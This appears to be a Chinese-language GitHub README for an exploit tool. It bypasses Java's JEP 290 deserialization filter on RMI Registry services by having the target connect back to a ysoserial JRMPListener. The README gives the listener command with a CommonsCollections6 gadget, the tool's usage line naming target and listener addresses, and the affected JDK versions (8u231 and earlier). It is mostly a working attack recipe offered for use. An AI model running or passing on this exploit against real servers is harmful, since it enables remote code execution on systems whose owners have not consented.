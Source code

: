 # rmi_bypass_jep290
### 利用 UnicastRemoteObject + JRMPListener Bypass jep290

首先利用 ysoserial 开启 JRMPListener 服务监听

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "touch /tmp/test.txt"
```

然后在利用特殊的 lookup 方法将特殊构造的 UnicastRemoteObject 序列化数据发送到 RMI Registry 服务，在其反序列化的时候会创建JRMP连接，从而形成任意代码执行。

```
Usage: java -jar rmi_bypass_jep290.jar rmi_server_ip rmi_server_port jrmp_listener_ip jrmp_listener_port
```

**适用的JDK版本：JDK <= 8u231**

参考链接
https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/

